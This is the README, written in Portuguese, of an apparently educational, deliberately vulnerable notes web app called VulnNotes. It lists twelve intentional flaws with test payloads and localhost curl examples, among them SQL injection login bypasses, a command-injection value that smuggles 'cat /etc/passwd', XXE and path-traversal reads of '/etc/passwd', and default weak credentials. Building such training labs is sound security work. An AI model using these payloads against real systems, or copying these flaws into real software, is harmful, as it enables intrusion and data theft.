 # 🔓 VulnNotes - SaaS Propositalmente Vulnerável

Um sistema de notas desenvolvido para **fins educacionais** e **testes de segurança**. Este projeto contém múltiplas vulnerabilidades intencionais para demonstrar falhas de segurança comuns em aplicações web.

⚠️ **ATENÇÃO: NÃO USE EM PRODUÇÃO!** ⚠️

## 🎯 Vulnerabilidades Implementadas

### 1. SQL Injection
- **Endpoint**: `POST /login`, `GET /search`
- **Descrição**: Login e busca vulneráveis a SQL injection
- **Teste**: 
  - Login: `admin' OR '1'='1-- -`
  - Busca: `test' UNION SELECT username,password FROM users-- -`

### 2. Cross-Site Scripting (XSS)
- **Endpoint**: `/notes`, `/search`
- **Descrição**: Entrada de usuário não sanitizada
- **Teste**: `<script>alert('XSS')</script>`

### 3. Path Traversal
- **Endpoint**: `GET /file?path=`
- **Descrição**: Leitura de arquivos arbitrários do sistema
- **Teste**: `/file?path=../../../etc/passwd`

### 4. Command Injection
- **Endpoint**: `POST /ping`
- **Descrição**: Execução de comandos do sistema
- **Teste**: `127.0.0.1; ls -la` ou `127.0.0.1 && whoami`

### 5. Local File Inclusion (LFI)
- **Endpoint**: `GET /template?file=`
- **Descrição**: Inclusão de arquivos locais
- **Teste**: `/template?file=../package.json`

### 6. Information Disclosure
- **Endpoint**: `GET /debug`
- **Descrição**: Exposição de informações sensíveis do sistema
- **Teste**: Acesse `/debug` para ver senhas e variáveis de ambiente

### 7. XML External Entity (XXE)
- **Endpoint**: `POST /import`
- **Descrição**: Parser XML vulnerável a entidades externas
- **Teste**:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<data>&xxe;</data>
```

### 8. Insecure Direct Object Reference (IDOR)
- **Endpoint**: `GET /notes?user=`
- **Descrição**: Acesso a dados de outros usuários
- **Teste**: Mude o parâmetro `user` para ver notas de outros usuários

### 9. Weak Authentication
- **Múltiplos usuários**: Senhas fracas e previsíveis
- **Credenciais**: admin/1234, guest/guest, test/(vazia), root/toor

### 10. Mass Assignment
- **Endpoint**: `POST /user/update`
- **Descrição**: Atualização de campos não intencionais
- **Teste**: 
```json
{
  "id": 1,
  "username": "hacker",
  "password": "newpass",
  "role": "admin"
}
```

### 11. Insecure Session Management
- **Endpoint**: `POST /session/create`, `GET /session/info`
- **Descrição**: IDs de sessão previsíveis e vazamento de sessões
- **Teste**: Session IDs no formato `sess_username_timestamp`

### 12. Unrestricted File Upload
- **Endpoint**: `POST /upload`
- **Descrição**: Upload sem validação de tipo ou tamanho
- **Teste**: Faça upload de arquivos maliciosos (.php, .sh, etc.)

## 🚀 Como Usar

1. Instale as dependências:
```bash
npm install
```

2. Execute o servidor:
```bash
node server.js
```

3. Acesse: http://localhost:3000

## 📋 Credenciais de Teste

| Usuário | Senha | Descrição |
|---------|--------|-----------|
| admin   | 1234   | Administrador |
| guest   | guest  | Usuário guest |
| test    | (vazia) | Usuário sem senha |
| root    | toor   | Usuário root |

## 🛠️ Ferramentas Recomendadas para Teste

- **Burp Suite**: Para interceptar e modificar requisições
- **OWASP ZAP**: Scanner de vulnerabilidades
- **sqlmap**: Para automação de SQL injection
- **curl**: Para testes manuais de API
- **Postman**: Para testes de endpoints

## 🔍 Exemplos de Exploração

### SQL Injection no Login
```bash
curl -X POST http://localhost:3000/login \
  -d "username=admin' OR '1'='1-- -&password=any"
```

### Command Injection
```bash
curl -X POST http://localhost:3000/ping \
  -d "host=127.0.0.1; cat /etc/passwd"
```

### Path Traversal
```bash
curl "http://localhost:3000/file?path=../../../etc/passwd"
```

### XXE Attack
```bash
curl -X POST http://localhost:3000/import \
  -d 'xml=<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]><root>&test;</root>'
```

## 📚 Referências Educacionais

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)

## ⚖️ Uso Responsável

Este projeto é destinado **exclusivamente** para:
- Educação em segurança cibernética
- Treinamento de desenvolvedores
- Testes em ambiente controlado
- Demonstrações acadêmicas

**NÃO use este código em produção ou contra sistemas sem autorização explícita.**

## 🤝 Contribuições

Contribuições são bem-vindas! Se você encontrar uma vulnerabilidade interessante que pode ser adicionada para fins educacionais, abra uma issue ou pull request.

## 📄 Licença

ISC - Este projeto é fornecido "como está" para fins educacionais.

---
**Desenvolvido para fins educacionais em segurança cibernética** 🛡️
